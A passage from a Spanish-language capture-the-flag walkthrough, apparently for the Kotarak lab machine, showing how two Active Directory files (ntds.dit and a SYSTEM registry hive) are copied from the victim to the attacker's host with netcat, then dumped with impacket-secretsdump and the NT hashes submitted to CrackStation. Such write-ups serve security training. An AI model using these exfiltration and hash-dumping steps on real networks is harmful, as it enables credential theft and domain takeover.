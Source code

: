 Aqui vemos que hay dos ficheros y con el commando 
```bash
 file 
```
 vemos que hay un fichero data y un MS Windows registry file NT/2000.
Nos traemos estos dos ficheros a nuestro equipo de atacante.

1. en la maquina de atacante

    ```bash
    nc -nlvp 443 > ntds.bin
    ```

1. en la maquina victima

    ```bash
    nc 10.10.14.6 443 < 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
    ```

1. en la maquina de atacante

    ```bash
    nc -nlvp 443 > ntds.dit
    ```

1. en la maquina victima

    ```bash
    nc 10.10.14.6 443 < 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
    ```

#### Recuperando hashes nt desde ficheros Active Directories {-}

```bash
mv ntds.dit ntds
mv ntds.bin SYSTEM
impacket-secretsdump -ntds ntds -system SYSTEM LOCAL
```

Aqui copiamos los diferentes hashes en un fichero llamado hash


![Kotrarak-hashes](/assets/images/Kotrarak-hashes.png) 
cat hash | awk '{print $4}' FS=":" y copiamos los hashes en la pagina [crack station](https://crackstation.net/)
